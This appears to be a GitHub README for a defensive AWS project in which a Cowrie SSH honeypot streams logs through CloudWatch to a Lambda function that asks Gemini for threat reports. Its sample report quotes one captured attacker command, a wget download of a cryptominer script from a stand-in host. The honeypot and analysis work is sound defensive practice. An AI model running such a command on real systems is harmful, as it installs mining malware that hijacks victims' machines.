






# 🛡️ Serverless AI Honeypot & Automated Threat Intelligence Pipeline

## 📖 Overview
A custom, event-driven cybersecurity architecture deployed on AWS. This project utilizes a Linux SSH Honeypot (Cowrie) to trap automated botnets and malicious actors. Attack logs are streamed in real-time to a serverless AWS Lambda function, which intercepts malicious payloads and utilizes the Google Gemini 2.5 AI API to automatically generate Threat Intelligence Reports and route them via email.

## 🏗️ Architecture & Tech Stack
- **Target Server:** AWS EC2 (Amazon Linux 2023)
- **Honeypot Engine:** Cowrie (Configured with `iptables` port redirection)
- **Telemetry Pipeline:** Amazon CloudWatch Agent
- **Event-Driven Compute:** AWS Lambda (Python 3.12, `boto3`)
- **AI Integration:** Google Gemini 2.5 API (REST via `urllib`)
- **Alerting System:** Amazon SNS (Automated Email Routing)

## 🚀 The Attack Lifecycle (How It Works)
1. **The Trap:** An attacker scans the internet and finds Port 22 open on the EC2 instance. `iptables` silently redirects their traffic to the Cowrie honeypot running on an unprivileged port.
2. **The Capture:** Cowrie mimics a vulnerable Linux environment, tricking the attacker into attempting brute-force logins and dropping malware payloads (e.g., `wget` scripts).
3. **The Pipeline:** The AWS CloudWatch agent detects new log entries and instantly pushes the JSON telemetry to a CloudWatch Log Group.
4. **The Brain:** A CloudWatch Subscription Filter triggers an AWS Lambda function. The Python script decodes the telemetry, isolates the command input, and forwards it to the AI model.
5. **The Alert:** The AI analyzes the payload, determines the attacker's intent, and uses Amazon SNS to immediately email a comprehensive Threat Intelligence Report to the security administrator.

## 🧠 Live Capture: AI Intelligence Report
During a live-fire test, the honeypot captured the following automated attack vector:

> **🚨 HONEYPOT BREACH DETECTED 🚨**
> 
> **Attacker IP:** 15.134.201.67
> **Intercepted Command:** `wget http://malicious-ip.com/cryptominer.sh`
> 
> **🧠 AI Analysis:** > This command uses `wget` to download a shell script named `cryptominer.sh` from a remote server to the honeypot. This script is designed to install and execute a cryptocurrency miner. The hacker's goal is to exploit the system's processing power (CPU/GPU) to mine cryptocurrency for their own profit.

## 💡 Practical Skills Applied
- **Cloud Infrastructure & Security:** VPC configuration, Security Groups, IAM Role boundary enforcement.
- **Linux System Administration:** Service management (`systemd`), user privilege separation, network routing (`iptables`).
- **Event-Driven Architecture:** Serverless compute orchestration (Lambda), CloudWatch Event Routing.
- **Threat Intelligence:** Automated JSON log parsing, API integration, and malware intent analysis.
- ## 🛠️ Deployment Summary
To reproduce this architecture:
1. **Infrastructure:** Provision an Amazon Linux 2023 EC2 instance. Configure Security Groups to allow inbound TCP on ports 22 (SSH) and 2222 (Cowrie).
2. **Honeypot:** Install Cowrie. Use `iptables` to route traffic from Port 22 to 2222 to capture automated scanners without running Cowrie as root.
3. **Telemetry:** Install the unified CloudWatch Agent to monitor `/home/cowrie/cowrie/var/log/cowrie/cowrie.json`.
4. **Compute:** Deploy the `lambda_function.py` script. Attach an IAM execution role with permissions for CloudWatch Logs and SNS. Store API keys in Lambda Environment Variables.
5. **Trigger:** Create a CloudWatch Log Subscription filter to stream incoming honeypot events directly to the Lambda function.

   ## 📸 Project Gallery & Proof of Concept

### 1. The Result: Automated AI Threat Intelligence
*The final output. An event-driven Lambda function parses the Cowrie logs, queries the Gemini 2.5 AI model, and routes the intelligence report to my email via Amazon SNS.*

---

### 2. The Attack: Live Payload Interception
*The attacker's perspective. The honeypot successfully captures a live `wget` command attempting to download a cryptominer payload before disconnecting the session.*

---

### 3. The Backend: Infrastructure & Telemetry Configuration
*A look under the hood at the AWS and Linux engineering required to build the automated pipeline.*

**Step A: IAM Security Role Configuration**
*Applying the principle of least privilege to allow the EC2 instance to securely publish logs to CloudWatch.*

**Step B: CloudWatch Agent Installation**
*Installing the unified telemetry agent on the Amazon Linux 2023 server.*

**Step C: Telemetry Routing (JSON Configuration)**
*Writing the custom `cloudwatch-config.json` file to map the raw `/home/cowrie/cowrie/var/log/cowrie/cowrie.json` file to the AWS Cloud.*

**Step D: Event Trigger & Pipeline Verification**
*Verifying the logs successfully stream into the CloudWatch Log Group and trigger the Lambda Subscription Filter.*

   ## 🔮 Future Enhancements
- **DynamoDB Integration:** Store attacker IPs and malware hashes in a NoSQL database to build a long-term threat intelligence feed.
- **Automated Blocking:** Integrate Lambda with AWS WAF or EC2 Network ACLs to automatically block IPs that the AI flags as highly malicious.
- **Dashboarding:** Connect the CloudWatch logs to Amazon OpenSearch or Grafana for real-time visual geographic tracking of attackers.
